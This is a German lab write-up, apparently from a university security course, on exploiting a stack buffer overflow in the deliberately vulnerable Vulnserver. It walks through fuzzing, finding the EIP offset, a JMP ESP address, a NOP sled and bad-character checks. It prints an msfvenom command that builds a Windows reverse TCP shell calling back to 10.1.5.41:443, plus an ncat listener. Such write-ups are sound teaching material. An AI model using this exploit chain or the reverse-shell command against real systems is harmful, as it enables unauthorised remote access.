\section{Ein echter Buffer Overflow - Build your own Exploit}
Als Basis für diesen Angriff wurde der Blogartikel Fuzzing and Exploiting Buffer Overflows auf Toaster Security verwendet.\\%(https://toastersecurity.blogspot.com/2016/10/fuzzing-and-exploiting-buffer-overflows.html)
Wir wollen Fehlimplementierungen auf unserem Vulnserver ausnutzen und beginnen mit einem simplen Fuzzer, mit welchem wir erst einmal schauen können, was denn falsch implementiert ist.
Wir kommunizieren mit dem Server und schauen, welche Funktionen er nach außen anbietet, und benutzen diese in unserem simplen Fuzzer-Skript, bei dem wir diese mit verschieden großen Inputs aufrufen und schauen, ob wir irgendwo einen Overflow triggern.\\
\begin{figure}[H]
	\centering
	
	\begin{minipage}{0.49\textwidth}
		
\includegraphics[width=\linewidth]{simple_fuzzing.png}
		\caption{simple Fuzzer}
	\end{minipage}
	\hfill
	\begin{minipage}{0.49\textwidth}
		
\includegraphics[width=\linewidth]{Funktionen des Servers.png}
		\caption{Server Funktionen}
	\end{minipage}
	
\end{figure}
Wie im Tutorial bricht es auch bei unserem Server bei KSTET bei 300 Bytes als letztem gesendeten Wert ab, somit zwischen 100 und 300 Bytes. Dann können wir auch im Debugger sehen, dass EIP mit AA bzw. 41414141 überschrieben ist, genauso wie der EBP.\\

\begin{figure}[H]
	\centering
	
	\begin{minipage}{0.49\textwidth}
		
\includegraphics[width=\linewidth]{KSTET_crash.png}
		\caption{KSTET crash}
	\end{minipage}
	\hfill
	\begin{minipage}{0.49\textwidth}
		
\includegraphics[width=\linewidth]{überschrieben_verbessert.png}
		\caption{EIP überschrieben}
	\end{minipage}
	
\end{figure}
Also haben wir den Dienst gefunden, der einen Overflow triggern kann, und wissen ungefähr, wie groß der Input sein muss, damit EIP überschrieben wird. Dies analysieren wir nun noch etwas genauer und erstellen uns mit Metasploit ein Unique Pattern (locate Pattern-create), das 300 Bytes groß ist. Greifen wir damit nun erneut an, bekommen wir die genaue Stelle, bei welchem Offset wir den EIP überschreiben. 
\begin{figure}[H]
	\centering
	
	\begin{minipage}{0.49\textwidth}
		
\includegraphics[width=\linewidth]{verbessert_EIPoffsetconfirm.png}
		\caption{EIP überschrieben mit Unique Pattern}
	\end{minipage}
	\hfill
	\begin{minipage}{0.49\textwidth}
		
\includegraphics[width=\linewidth]{offset_bekommen.png}
		\caption{Offset bestimmen}
	\end{minipage}
	
\end{figure}
Wir bestätigen das Offset und schauen gleichzeitig, wie viel Padding wir danach noch auf den Stack schreiben können, leider hier nur ungefähr 20 Bytes. Wir brauchen aber knapp 300–400 Bytes für eine zuverlässige Shell.\\
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=0.7\textwidth]{offset_confirmed.png}
	\caption{Confirm Debugger-output}
	\label{fig:Wireshark}
\end{figure}
Daher gehen wir an dieser Stelle zurück und suchen, ob unser Server einen weiteren Overflow anbietet.\\
Nach Betrachtung des Codes ist dem Autor aufgefallen, dass wir beim TRUN-Dienst ein "." brauchen, damit Eingaben richtig verarbeitet werden. Das wurde in unserem Fuzzing-Skript geändert und wir bekommen auch bei diesem Dienst einen Servercrash zwischen 2100 und 2300 gesendeten Bytes.
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=0.5\textwidth]{FuzzingTRUN.png}
	\caption{TRUN for Fuzzing}
	\label{fig:TRUN_Fuzzing}
\end{figure}
Wir benutzen hier nun auch wieder Metasploit, um ein Pattern zu bekommen und das Offset genau zu bestimmen, wie vorher bereits auch.\\
2006 als Offset herausgefunden und auch das bestätigen wir wieder und sehen, dass wir hier deutlich mehr Platz haben, eine Shell zu injizieren.
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=0.3\textwidth]{verbesserrt_stackplatz.png}
	\caption{Stack nach Trun Overflow}
	\label{debugger_Stackplatz}
\end{figure}
Nun brauchen wir jmp esp, um zu unseren injizierten Daten zu springen. JMP ESP springt dorthin, wo der Stack Pointer gerade zeigt.
\begin{verbatim}
	Suchen mit alt+e, dann essfunc -> Rechtsklick -> Search -> Command -> JMP ESP eingeben
\end{verbatim}
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=0.5\textwidth]{JMP ESP.png}
	\caption{JMP ESP}
	\label{fig:JMP_ESP}
\end{figure}
JMP ESP mit Opcode FFE4 bei 625011AF.\\
Damit überschreiben wir nun den EIP, aber Vorsicht: 
\begin{verbatim}
	"\xAF\x11\x50\x62" wegen Little Endian.
\end{verbatim}
Der Speicher verschiebt sich immer wieder um ein paar Bytes, deswegen brauchen wir einen NOP-Sled. "No Operation"-Operationen anstelle des Paddings.
\begin{verbatim}
	Padding = "\x90"*16     
\end{verbatim}
Wir müssen nun, bevor wir Shellcode einfügen, noch sicherheitshalber prüfen, ob gewisse ASCII-Zeichen nicht falsch aufgelöst werden können. Daher einmal alle ASCII-Zeichen auf den Stack schreiben und schauen, ob diese richtig angezeigt werden.
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=1\textwidth]{BADCharacter.png}
	\caption{BadCharacter}
	\label{fig:BadCharacter}
\end{figure}

Die ASCII-Zeichen wurden alle richtig aufgelöst und auch unsere Padding-'C's liegen weiter auf dem Stack, also führt kein Zeichen zu einem vorzeitigen Abbruch oder Ähnlichem.\\
\begin{verbatim}
	Trotzdem excluden sollten wir  "\x00", weil es oft als Ende eines Strings interpretiert wird, sowie Zeilenumbrüche \n(\x0a) und \r(\x0d). Diese können zu ungewolltem Verhalten führen.
	Nun kommen wir zum Generieren des Shellcodes.    
\end{verbatim}
Trotzdem excluden sollten wir  "\textbackslash x00", weil es oft als Ende eines Strings interpretiert wird, sowie Zeilenumbrüche \textbackslash n(\textbackslash x0a) und \textbackslash r(\textbackslash x0d). Diese können zu ungewolltem Verhalten führen.
Nun kommen wir zum Generieren des Shellcodes.\\
\begin{verbatim}
	Generate reverse TCP-Shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.1.5.41 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d"
\end{verbatim}
Es wird sich mit uns über Port 443 verbunden durch den Code.\\
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=0.8\textwidth]{final_angriff.png}
	\caption{Finales Script}
	\label{fig:final}
\end{figure}
Wir lauschen auf unserem Port: ncat -lvp 443 \\
Nach Ausführen des Codes haben wir hier Zugriff auf das System bekommen.
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=1\textwidth]{zugriff.png}
	\caption{Access}
	\label{fig:Access}
\end{figure}

\subsection{a) Welche Rechte besitzen Sie auf der vom Zielrechner bereitgestellten Shell?}
Da wir nun auf einem Windows-System sind, können wir uns die Rechte, die unser Nutzer hat, mit folgendem Befehl anschauen:
\begin{verbatim}
	whoami /groups
\end{verbatim}
Das Ergebnis zeigt, dass wir Standard-User-Rechte haben:
\begin{figure}[H]
	\raggedright
	
\includegraphics[width=1\textwidth]{gruppen_rechte_windows.png}
	\caption{Windows Rechte}
	\label{fig:rechte}
\end{figure}
Medium Mandatory Level bedeutet wohl, dass wir normale Benutzerrechte haben.
\subsection{b) Um welchen Typ von Buffer Overflow handelt es sich hier?}
Es handelt sich um Stacksmashing.Beim Stack-Smashing überschreiben wir die Rücksprungadresse bzw. den EIP. Dadurch wird der Kontrollfluss auf den eingeschleusten Shellcode umgeleitet.
